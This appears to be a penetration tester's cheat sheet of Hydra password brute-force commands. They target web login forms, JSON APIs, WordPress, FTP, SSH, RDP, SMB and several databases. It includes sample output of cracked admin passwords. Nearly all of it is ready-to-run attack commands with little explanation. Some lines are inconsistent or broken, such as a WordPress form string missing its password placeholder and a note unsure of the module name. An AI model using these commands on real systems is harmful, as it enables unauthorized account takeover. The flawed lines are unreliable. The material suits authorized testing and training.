 #### Hydra URL Forms

```bash - kali
hydra $TARGET -s 80 http-get / -l $USER -P /usr/share/wordlists/rockyou.txt -vV -f -t 3
```

The above form, part of the <u>/form/login.html page</u>, indicates that the POST request is handled by <u>/form/frontpage.php</u>, which is the URL we will feed to Hydra.  Since we are attacking the admin user login with a wordlist, the combined argument to Hydra becomes:  ==(IS IT "http-form-post" OR "http-post-form")?==
```bash - kali
hydra $TARGET -s 80 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f -t 3
```

If you get multiple results:
```
[80][http-get-form] host: targets.local login: admin password: iloveyou
[80][http-get-form] host: targets.local login: admin password: 123456
[80][http-get-form] host: targets.local login: admin password: 12345
[80][http-get-form] host: targets.local login: admin password: princess
[80][http-get-form] host: targets.local login: admin password: nicole
[80][http-get-form] host: targets.local login: admin password: daniel
[80][http-get-form] host: targets.local login: admin password: babygirl
[80][http-get-form] host: targets.local login: admin password: lovely
```

Try adding a cookie, like:
```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 targets.local http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=5r9mcj6pgqd910hrlr6l4is0tk"
```

OTHER EXAMPLES:
```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt $TARGET -s 8081 http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Password!" -t 3
```
```bash - kali
hydra -l none -P rockyou.txt $TARGET http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
```
```bash - kali
hydra -L users -p passwords -t 10 $TARGET http-get-form "/ajax.php:fun=login&username=^USER^&password=^PASS^:invalid user" -f -t 3
```
```bash - kali
hydra -l webdeveloper -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f -t 3
```
```bash - kali
hydra -L users -P /usr/share/wordlists/rockyou.txt -s 80 $TARGET http-post-form "/login:{'username'\:'^USER^','password'\:'^PASS^'}:failed" -f -t 3
```

==Lower the number of tasks in parallel, if having issues (Default is 16).==

```bash - kali
-t 3
```

### Hydra against JSON:
```bash - kali
hydra -l myP14ceAdm1nAcc0uNT -P /usr/share/wordlists/rockyou.txt $TARGET -s 3000 http-post-form "/api/session/authenticate:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Authenticatio n failed:H=Content-Type\: application/json" -t 64
```
#### Hydra aginst multiple IPs w/ lists
```
hydra -l users.txt -P pass.txt -M IPs.txt ssh
```
#### Hydra against FTP
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET ftp -vvv -f -s 21 -t 3
```
#### Hydra against Mongo
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET mongodb -vvv -f -s 27017 -t 3
```
#### Hydra against MySQL
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET mysql -vvv -f -s 3306 -t 3
```
#### Hydra against Postgresql
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET postgres -vvv -f -s 5437 -t 3
```
#### Hydra against RDP
```bash - kali
hydra -l blake -P /usr/share/wordlists/rockyou.txt $TARGET rdp -vvv -f -s 3389 -t 3
```
#### Hydra against SSH
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET ssh -vvv -f -s 22 -t 3
```
#### Hydra against SMB
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET smb -vvv -f -s 445 -t 3
```
#### Hydra against WordPress
```bash
hydra -vV -L users -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form '/wordpress/wp-login.php:log=^USER^&pwd&wp-submit=Log+In:F=is incorrect' -f -t 3
```
